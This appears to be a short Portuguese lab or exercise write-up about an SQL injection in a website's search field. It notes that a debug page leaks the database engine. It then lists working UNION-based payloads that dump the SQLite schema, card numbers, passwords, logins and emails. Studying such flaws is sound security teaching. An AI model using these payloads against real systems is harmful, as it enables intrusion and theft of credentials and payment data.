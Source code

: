 Falhas e Ataques
Página Inicial: SQL Injection
Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

Original:

SELECT * FROM posts WHERE Content LIKE "%"%";
Alteradas:

SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";

X" union select 1, 2 --
X" union select name, sql from sqlite_master where type='table' --
X" union select name || ': ' || card, password from secrets --
X" union select login || ': ' || email, password from logins --

